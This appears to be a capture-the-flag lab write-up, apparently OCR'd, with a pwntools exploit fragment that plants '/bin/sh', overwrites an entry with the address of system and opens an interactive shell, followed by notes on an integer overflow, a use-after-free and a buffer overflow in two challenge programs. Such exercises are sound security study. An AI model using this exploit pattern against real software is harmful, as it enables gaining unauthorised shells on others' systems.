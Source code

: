 ```

p.recvlines(8)
p.sendline(b'S')
p.sendline(b'0')
p.sendline('/bin/sh')

p.recvlines(8)
p.sendline(b'S')
p.sendline(b'2')
p.sendline(p32(system))

p.recvlines(9)
p.sendline(b'A')
p.sendline(b'2')

p.interactive()
```
src challenge1 
================= 

General overview of problems faced 
-------------------------------------- 
lines:

12: Potential integer overflow due to signed int. There was no check for negative integers. A negative integer will pass the check but it will be explicitly  casted into unsigned int inside read function, causes a very large positive integer and  this leads to integer overflow.

src challenge2
================= 

General overview of problems faced 
--------------------------------------
lines:

78: Potential heap exploitation via use-after-free. The function doesn't free auth, therefore the user might still have access to user auth and somehow can try to overwrite it even after logging out.  
105: Buffer overflow due to the use of strncmp. We couldn't make sure that the buffer is at least 4 bytes or has a null terminator. If it has less than 4 bytes while not having  a null terminator, buffer overflow occurs. 

